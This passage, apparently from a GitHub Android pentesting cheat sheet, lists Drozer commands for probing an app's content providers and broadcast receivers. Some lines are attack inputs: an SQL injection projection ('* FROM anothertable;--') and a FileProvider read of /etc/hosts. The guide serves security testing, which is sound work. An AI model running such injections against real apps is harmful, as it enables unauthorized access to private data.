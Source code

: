 List exported and protected (unexported) content providers:

```fundamental
run app.provider.info -a com.someapp.dev

run app.provider.info -u -a com.someapp.dev
```

List, query, and scan for vulnerabilities all content providers' URIs:

```fundamental
run app.provider.finduri com.someapp.dev

run scanner.provider.finduris -a com.someapp.dev

run scanner.provider.injection -a com.someapp.dev

run scanner.provider.sqltables -a com.someapp.dev

run scanner.provider.traversal -a com.someapp.dev
```

You will need to [reverse engineer](#14-decompile-an-apk) the APK and look into the source code to find out what parameters need to be sent to the content provider to exploit it.

Content provider CRUD controls and more:

```fundamental
run app.provider.insert content://com.someapp.dev.ContentProvider --integer somekey somevalue --string somekey somevalue

run app.provider.query content://com.someapp.dev.ContentProvider --projection '*'

run app.provider.query content://com.someapp.dev.ContentProvider --projection '* FROM anothertable;--'

run app.provider.update content://com.someapp.dev.ContentProvider --selection 'somekey=?' --selection-args somevalue --integer somekey somevalue --string somekey somevalue

run app.provider.delete content://com.someapp.dev.ContentProvider --selection 'somekey=?' --selection-args somevalue

run app.provider.read content://com.someapp.dev.FileProvider/etc/hosts
```

Use `--help` to see more options.

### Broadcast Receivers

Read more about broadcasts [here](https://developer.android.com/develop/background-work/background-tasks/broadcasts).

List exported and protected (unexported) broadcast receivers:

```fundamental
run app.broadcast.info -i -a com.someapp.dev

run app.broadcast.info -i -u -a com.someapp.dev
```

